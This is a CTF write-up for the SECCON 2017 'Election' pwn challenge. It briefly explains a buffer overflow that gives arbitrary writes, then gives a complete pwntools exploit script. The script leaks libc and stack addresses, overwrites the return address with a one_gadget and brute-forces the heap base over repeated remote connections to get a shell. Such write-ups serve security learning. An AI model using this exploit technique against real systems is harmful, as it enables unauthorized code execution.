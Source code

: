 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/12/10/seccon-2017-quals-election/
date: "2017-12-10T15:19:36+09:00"
tags: [ "ctf", "writeup", "seccon", "seccon-quals", "pwn", "buffer-overflow", "heap", "bruteforce" ]
"target_url": [ "https://ctftime.org/event/512/" ]
---
```


# SECCON 2017 Online CTF: Election

## solution

BOF and bruteforce.

There are a BOF at re-voting for `Ojima`.
This allows us to write anywhere and read somewhere.
Due to FULL RELRO, it's not the flag yet.
We want to get the libc (or heap) base addr.
But if you read the addr simply, then you lose the ability to write.
Here, you can use brutefoce to fix the head address, using $8192$ expected-trials, and get the flag.

## note

[zeosutt](https://twitter.com/zeosutt) and others read the binary and found base solution, and I made the flag using the brute-force attack.
I was faster a little, but he noticed the *neat* solution to get a head address.

## implementation

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='election.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=28349, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./election')
parser.add_argument('--libc', default='libc-2.23.so')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)
libc = ELF(args.libc)

def solve(p):
    def add(addr, value):
        p.sendlineafter('>> ', '2')
        p.sendlineafter('Show candidates? (Y/n) ', 'n')
        p.sendlineafter('candidate.\n>> ', 'Oshima')
        p.sendlineafter('re-vote?\n>> ', 'yes'.ljust(0x20, '\0') + p64(addr - 0x10) + chr(value))
    def write(addr, s):
        for i, c in enumerate(s):
            for value in [ ord(c) / 2, (ord(c) + 1) / 2 ]:  # to avoid to be nagative
                if value:
                    add(addr + i, value)

    heap_base = 0x0162b000  # fixed
    # heap_base = input()
    # log.info('heap base: %#x', heap_base)

    # make a candidate structure, whose name is `got.__libc_start_mai` and next_candidate is the `list`
    p.sendlineafter('>> ', '1')
    p.sendlineafter('name.\n>> ', '\0')
    write(heap_base + 0xf0, p64(elf.got['__libc_start_main']) + p64(heap_base + 0x90))
    add(elf.symbols['list'], 0x20)
    log.info('%#x', elf.got['__libc_start_main'])

    # read the libc base
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('Candidates:\n* ')
    libc_base = u64(p.recvline()[: -1].ljust(8, '\0')) - libc.symbols['__libc_start_main']
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('libc base: %#x', libc_base)

    # read the environ
    write(heap_base + 0x10, p64(libc_base + libc.symbols['environ'] - (heap_base + 0x30)))
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('* Shinonome\n* ')
    environ = u64(p.recvline()[: -1].ljust(8, '\0'))
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('environ: %#x', environ)
    ret_addr = environ - 240
    log.info('return addr: %#x', ret_addr)

    # attack
    one_gadget = 0xf1117
    write(ret_addr, p64(one_gadget - (libc.symbols['__libc_start_main'] + 240)))
    p.sendlineafter('>> ', '0')

    time.sleep(1)
    p.sendline('id')

for iteration in range(10000):
    log.info('iteration: %d', iteration)
    try:
        with remote(args.host, args.port) as p:
            solve(p)
            p.interactive()
            break
    except EOFError:
        pass

```
